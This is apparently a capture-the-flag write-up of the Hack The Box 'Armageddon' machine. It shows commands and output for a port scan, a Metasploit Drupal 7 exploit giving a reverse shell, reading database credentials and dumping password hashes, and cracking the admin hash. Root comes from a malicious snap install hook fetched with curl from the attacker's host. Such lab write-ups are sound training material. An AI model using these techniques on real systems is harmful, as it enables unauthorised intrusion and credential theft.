

# Armageddon Writeup


Target host: 10.10.10.233
Performed TCP portscan against target.
```go
└──╼ $rustscan -a 10.10.10.233 -- -sV -sC -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/nath/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.10.233:22
Open 10.10.10.233:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV -sC -A" on ip 10.10.10.233
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-17 12:03 AEST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:03
Completed NSE at 12:03, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:03
Completed NSE at 12:03, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:03
Completed NSE at 12:03, 0.00s elapsed
Initiating Ping Scan at 12:03
Scanning 10.10.10.233 [2 ports]
Completed Ping Scan at 12:03, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:03
Completed Parallel DNS resolution of 1 host. at 12:03, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 12:03
Scanning 10.10.10.233 [2 ports]
Discovered open port 22/tcp on 10.10.10.233
Discovered open port 80/tcp on 10.10.10.233
Completed Connect Scan at 12:03, 0.52s elapsed (2 total ports)
Initiating Service scan at 12:03
Scanning 2 services on 10.10.10.233
Completed Service scan at 12:03, 7.05s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.233.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:03
Completed NSE at 12:04, 11.98s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:04
Completed NSE at 12:04, 1.72s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:04
Completed NSE at 12:04, 0.00s elapsed
Nmap scan report for 10.10.10.233
Host is up, received syn-ack (0.34s latency).
Scanned at 2023-04-17 12:03:43 AEST for 22s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC2xdFP3J4cpINVArODYtbhv+uQNECQHDkzTeWL+4aLgKcJuIoA8dQdVuP2UaLUJ0XtbyuabPEBzJl3IHg3vztFZ8UEcS94KuWP09ghv6fhc7JbFYONVJTYLiEPD8nrS/V2EPEQJ2ubNXcZAR76X9SZqt11JTyQH/s6tPH+m3m/84NUU8PNb/dyhrFpCUmZzzJQ1zCDStLXJnCAOE7EfW2wNm1CBPCXn1wNvO3SKwokCm4GoMKHSM9rNb9FjGLIY0nq+8mt7RTJZ+WLdHsje3AkBk1yooGFF+0TdOj42YK2OtAKDQBWnBm1nqLQsmm/Va9T2bPYLLK5aUd4/578u7h
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4kP4gQ5Th3eu3vz/kPWwlUCm+6BSM6M3Y43IuYVo3ppmJG+wKiabo/gVYLOwzG7js497Vr7eGIgsjUtbIGUrY=
|   256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG9ZlC3EA13xZbzvvdjZRWhnu9clFOUe7irG8kT0oR4A
80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:04
Completed NSE at 12:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:04
Completed NSE at 12:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:04
Completed NSE at 12:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.89 seconds
```

Browsing to the HTTP server on port 80 presents us with the following page.


Some useful information Webappalyzer shows us that the web application is running on Drupal 7 and PHP 5.2.


A quick Google search shows that Drupal 7 has reached the end of its life in terms of support. This means, no more content and security updates.

When searching for Drupal 7 with `Searchsploit` (ExploitDB) I see a number of high and critical severity exploits.


By the looks of things, many of them appear to already be incorporated into Metasploit, which definitely makes things easy.

## Foothold
From here I started up Metasploit and searched for Drupal, and selected the second exploit in the list of results.


After setting the remote host and the listening host, just like that, we have a reverse shell!


After getting my reverse shell, I made my way over to the Drupal config file which was located at `sites/default/settings.php`.

While reading through the config file I found some credentials to the Drupal MySQL database.
```php
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',
'prefix' => '',
```

However when I attempt to log into the MySQL database with `mysql -u drupaluser -pCQHEy@9M*m23gBVj`, I get no response from the reverse shell.
```bash
(Meterpreter 1)(/var/www/html/sites/default) > shell
Process 2451 created.
Channel 1 created.
mysql -u drupaluser -pCQHEy@9M*m23gBVj

^C
Terminate channel 1? [y/N]  y
```

There is a possibility that SELinux is enabled and is preventing me from connecting to the database.
```bash
SELinux status:                 enabled
SELinuxfs mount:                /sys/fs/selinux
SELinux root directory:         /etc/selinux
Loaded policy name:             targeted
Current mode:                   enforcing
Mode from config file:          error (Permission denied)
Policy MLS status:              enabled
Policy deny_unknown status:     allowed
Max kernel policy version:      31
```

When I search through the SELinux config file, for httpd with `getsebool -a | grep httpd` it appears that my assumption is correct.
```bash
httpd_can_network_connect_db --> off
```

Though this isn't great, it's not the end of the road.
I noticed that when I use `-e` option with MySQL and enter the username, password, and MySQL query in one line, I can see the results from the query.
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
Database
information_schema
drupal
mysql
performance_schema
```

Great! Now lets enumerate all the tables in the drupal database.
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
block_role
blocked_ips
cache
cache_block
cache_bootstrap
cache_field
cache_filter
cache_form
cache_image
cache_menu
cache_page
cache_path
comment
date_format_locale
date_format_type
date_formats
field_config
field_config_instance
field_data_body
field_data_comment_body
field_data_field_image
field_data_field_tags
field_revision_body
field_revision_comment_body
field_revision_field_image
field_revision_field_tags
file_managed
file_usage
filter
filter_format
flood
history
image_effects
image_styles
menu_custom
menu_links
menu_router
node
node_access
node_comment_statistics
node_revision
node_type
queue
rdf_mapping
registry
registry_file
role
role_permission
search_dataset
search_index
search_node_links
search_total
semaphore
sequences
sessions
shortcut_set
shortcut_set_users
system
taxonomy_index
taxonomy_term_data
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog
```

Lets see what we can find in the users table.
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users;"
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu			filtered_html	1606998756	1607077194	1607076276	1Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}
```

Nice! We have a user `brucetherealadmin` and its password hash `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`

As I dont know what kind of hash this is, Im going to give this to `john` and see what it can do with it.
```bash
└──╼ $john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /home/nath/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:00 DONE (2023-04-17 12:42) 1.052g/s 244.2p/s 244.2c/s 244.2C/s courtney..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is `booboo`. We can use this to login to the SSH server.
```bash
└──╼ $ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ ls
user.txt
[brucetherealadmin@armageddon ~]$
```

We're in! Lets attempt to elevate to root with `sudo -l`.
```bash
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

A Google search on [gtfobins](https://gtfobins.github.io/gtfobins/snap/) shows that we escalate to root by creating our own malicious snap package.

In order to create a snap package, it looks like we need to download and install `fpm`. This can be done with `sudo gem install fpm`. Make sure have you Ruby installed.

Created the package.
```bash
└──╼ $COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n id -s dir -t snap -a all meta
Created package {:path=>"id_1.0_all.snap"}
┌─[nath@parrot]─[/tmp/tmp.ORa8QgMMJB]
└──╼ $ls
id_1.0_all.snap  meta
┌─[nath@parrot]─[/tmp/tmp.ORa8QgMMJB]
└──╼ $python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Now I upload it to the victm machine.
Since wget is not installed on tha target machine, I had to use curl instead.
```bash
curl http://10.10.16.2:9001/id_1.0_all.snap -o id_1.0_all.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0   3756      0  0:00:01  0:00:01 --:--:--  3764
```

After executing the snap package in the way `sudo -l` says we should with the additional flags gtfobins mentions such as `--dangerous` and `--devmode`, we are able to verify that the package was executed as root.
```bash
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install id_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "id" snap if present (run hook "install": uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0)
```

Im going to create another snap package, but this time, I will slightly modify the `COMMAND` variable to copy and paste bash into the home directory and give it the `S` permission.
```bash
COMMAND='cp /bin/bash /home/brucetherealadmin/; chmod +s /home/brucetherealadmin/bash'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/bash\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n bsh -s dir -t snap -a all meta
```

After executing the new snap package, an error message was displayed saying that the package failed to install with exit code 1, however when I listed the directory I saw a copy of bash and was able to escalate privileges to root.
```bash
bash  bsh_1.0_all.snap  user.txt
[brucetherealadmin@armageddon ~]$ ./bash -p
./bash: /lib64/libtinfo.so.5: no version information available (required by ./bash)
bash-4.3# whoami
root
```